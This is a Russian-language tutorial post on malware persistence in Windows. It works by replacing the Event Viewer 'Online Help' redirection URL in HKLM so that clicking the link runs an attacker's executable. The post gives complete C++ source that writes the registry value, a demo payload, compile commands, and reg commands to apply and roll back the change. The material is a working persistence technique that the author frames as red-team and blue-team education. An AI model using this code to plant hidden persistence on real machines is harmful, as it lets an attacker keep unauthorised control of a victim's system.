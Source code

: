 \newpage
\subsection{80. разработка вредоносного ПО: закрепление (persistence) - часть 14. Ссылка на справку в Event Viewer. Простой пример на C++.}

﷽

![pers](./images/74/2022-10-09_05-28.png){width="80%"}    

Этот пост является результатом моего собственного исследования одного из интересных трюков персистентности вредоносного ПО: через замену ссылки на справку в Windows Event Viewer.     

### ссылка на справку в Event Viewer

Event Viewer в Windows существует уже более десяти лет. Он анализирует ограниченное количество журналов, которые Windows ведет на вашем компьютере. Эти журналы представляют собой текстовые файлы в формате `XML`, содержащие обычный текст.     

![pers](./images/74/2022-10-09_05-10.png){width="80%"}    

В качестве части своего интерфейса Event Viewer предоставляет ссылку на *Event Log Online Help*:    

![pers](./images/74/2022-10-09_05-11.png){width="80%"}    

При нажатии открывается стандартная справочная ссылка Microsoft, которая определена в реестре Windows по адресу `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Event Viewer`:     

![pers](./images/74/2022-10-09_05-13.png){width="80%"}    

Как вы, возможно, догадались, логично предположить, что значение ключа `MicrosoftRedirectionURL` можно изменить в интересах злоумышленника. В этом и заключается трюк.    

### практический пример

Рассмотрим практический пример. Во-первых, как обычно, создадим вредоносное приложение, `meow-meow` "вредоносное ПО" (`hack.cpp`):    

```cpp
/*
hack.cpp
вредоносное приложение для персистентности в Windows через
обновление ссылки на справку в Event Viewer
aвтор: @cocomelonc
https://cocomelonc.github.io/malware/2022/10/09/malware-pers-14.html
*/
#include <windows.h>
#pragma comment (lib, "user32.lib")

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR 
lpCmdLine, int nCmdShow) {
  MessageBox(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return 0;
}
```

Затем создаем программу для персистентности (`pers.cpp`):    


```cpp
/*
pers.cpp
windows persistence via
replace event viewer help link
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/10/09/malware-pers-14.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // event viewer
  const char* app = 
  "SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Event Viewer";

  // evil app
  const char* exe = 
  "file://Z:\\2022-10-09-malware-pers-14\\hack.exe";

  // app
  LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)app, 0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // update registry key value
    // reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Event 
    // Viewer" /v "MicrosoftRedirectionUrl" /t REG_SZ /d 
    // "file://...\hack.exe" /f
    RegSetValueEx(hkey, (LPCSTR)"MicrosoftRedirectionUrl", 0, REG_SZ, (unsigned char*)exe, strlen(exe));
    RegCloseKey(hkey);
  }

  return 0;
}
```

Как вы можете видеть, логика проста: просто обновляем значение ключа реестра на `file://Z:\2022-10-09-malware-pers-14\hack.exe`.    

### демонстрация

Давайте посмотрим, как все работает на практике. Скомпилируем "вредоносное ПО":    

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants \
-static-libstdc++ -static-libgcc -fpermissive
```

![pers](./images/74/2022-10-09_17-31.png){width="80%"}    

Проверяем корректность:    

![pers](./images/74/2022-10-09_05-38_1.png){width="80%"}    

Теперь компилируем скрипт персистентности:    

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants \
-static-libstdc++ -static-libgcc -fpermissive
```

![pers](./images/74/2022-10-09_05-24.png){width="80%"}    

Проверяем стандартные значения ключей реестра на машине жертвы - в моем случае `Windows 10 x64`:    

```powershell
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Event Viewer" /s
```

![pers](./images/74/2022-10-09_05-25.png){width="80%"}    

Затем также запускаем на машине жертвы - `Windows 10 x64`:    

```powershell
.\pers.exe
```    

![pers](./images/74/2022-10-09_05-26.png){width="80%"}    

Наконец, снова пробуем нажать на ссылку *Event Log Online Help*:    

![pers](./images/74/2022-10-09_05-11.png){width="80%"}    

![pers](./images/74/2022-10-09_05-27.png){width="80%"}    

Затем я посмотрел свойства `hack.exe` в Process Hacker 2:    

![pers](./images/74/2022-10-09_05-34.png){width="80%"}    

![pers](./images/74/2022-10-09_05-30.png){width="80%"}    

Это означает, что при нажатии на ссылку запускается `mmc.exe`, который, в свою очередь, инициирует вредоносное поведение.    

Для отката, после окончания экспериментов, выполните:    

```powershell
reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Event Viewer" /v \
"MicrosoftRedirectionUrl" /t REG_SZ /d \
"http://go.microsoft.com/fwlink/events.asp" /f
```

![pers](./images/74/2022-10-09_05-38.png){width="80%"}    

Или просто восстановите виртуальную машину.     

> Это метод персистентности на уровне администратора, поэтому он работает только при наличии прав администратора.       

Я не знаю, использовалась ли эта тактика каким-либо APT в дикой природе, но надеюсь, что этот пост повысит осведомленность синих команд об этой интересной технике, особенно при создании программного обеспечения, и добавит оружие в арсенал красных команд.

[Event Viewer](https://learn.microsoft.com/en-us/shows/inside/event-viewer)    
[RegOpenKeyEx](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regopenkeyexa)    
[RegSetValueEx](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regsetvalueexa)    
[RegCloseKey](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regclosekey)    
[reg query](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/reg-query)      
[исходный код на github](https://github.com/cocomelonc/meow/tree/master/2022-10-09-malware-pers-14)        
